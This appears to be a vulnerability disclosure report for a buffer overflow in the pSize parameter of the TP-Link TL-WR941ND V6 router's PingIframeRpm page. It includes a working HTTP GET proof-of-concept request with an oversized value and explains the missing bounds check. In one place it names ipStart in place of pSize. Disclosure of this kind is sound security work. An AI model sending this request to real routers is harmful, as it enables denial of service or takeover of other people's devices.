




# TP-Link TL-WR941ND wireless router /userRpm/PingIframeRpm buffer write out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer write out-of-bounds
- Vulnerability Description: A buffer write-out vulnerability exists in TP-Link TL-WR941ND wireless router, firmware version V6. Its /userRpm/PingIframeRpm implementation has a security vulnerability in handling the pSize GET key parameter, allowing remote attackers to submit special requests that can cause buffer out-of-bounds write errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
   - TP-Link TL-WR941ND V6

## 2 Vulnerability Value 

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

  - V2：[9.0 High AV:N/AC:L/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:L/Au:S/C:C/I:C/A:C))
  - V3.1：[9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H&version=3.1)

- Exploit Conditions

  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect
   - Denial of Service  
   - Remote Code Execution(RCE)

## 3 PoC

The PoC of TP-Link TL-WR941ND V6 is as follows:

```http
GET /KDPCAETBLEBXCEBB/userRpm/PingIframeRpm.htm?ping_addr=192.168.1.3&doType=ping&isNew=new&sendNum=4&pSize=64646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464646464&overTime=800&trHops=20 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/WRKWVQRABLAJMDEB/userRpm/DiagnosticRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/PingIframeRpm component implements a security vulnerability in processing the pSize GET key parameter. The length of the parameter key of pSize can be any length and it is put into the stack without any boundary check, resulting in a write out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:





After sending the PoC, the ipStart parameter value is too long, which leads to the write out of bounds, causing a fatal memory error, and a BadVA error, which leads to the service crash.





## 5. The basis for judging as a 0-day vulnerability

Search for PingIframeRpm keywords in the NVD database and find no vulnerabilities that is related to pSize Get key parameter (the same series of vulnerabilities can be found by directly searching the interface name to find the relevant historical vulnerabilities).

Search for PingIframeRpm keywords in the CNVD database did not find any vulnerabilities that is related to pSize Get key parameter (the same series of vulnerabilities can be found by directly searching the interface name to find the relevant historical vulnerabilities).